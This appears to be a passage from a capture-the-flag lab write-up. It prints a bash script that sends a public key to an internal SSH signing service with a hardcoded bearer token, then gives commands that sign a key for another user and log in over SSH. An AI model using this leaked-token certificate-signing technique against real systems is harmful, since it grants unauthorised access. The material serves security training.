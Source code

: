 ```bash
#!/bin/bash

usage () {
    echo "Usage: $0 <public_key_file> <username> <principal>"
    exit 1
}

#Check Args
if [ "$#" -ne 3 ]; then
    usage
fi

public_key_file="$1"
username="$2"
principal_str="$3"

#Check if public key exists
if [ ! -f "$public_key_file" ]; then
    echo "Error: Public key file '$public_key_file' not found."
    usage
fi

# Load Public Key
public_key=$(cat "$public_key_file")

# Signingrequest to SigningService
curl -s signserv.ssg.htb/v1/sign -d '{"pubkey": "'"$public_key"'", "username": "'"$username"'", "principals": "'"$principal_str"'"}' -H "Content-Type: application/json" -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE"
```

And here are the following three steps to get access to __SSG__.

__1. Create RSA Keypair:__

```bash
ssh-keygen -f zzinter -t rsa
```
__2. Sign Key:__

```bash
./sign_helper.sh zzinter.pub zzinter zzinter_temp >> zzinter-cert.pub
```

__3. Login:__

```bash
ssh zzinter@172.17.0.1 -i zzinter -o CertificateFile=zzinter-cert.pub -p 2222
```

![Screenshot33](./screenshots/32.png)
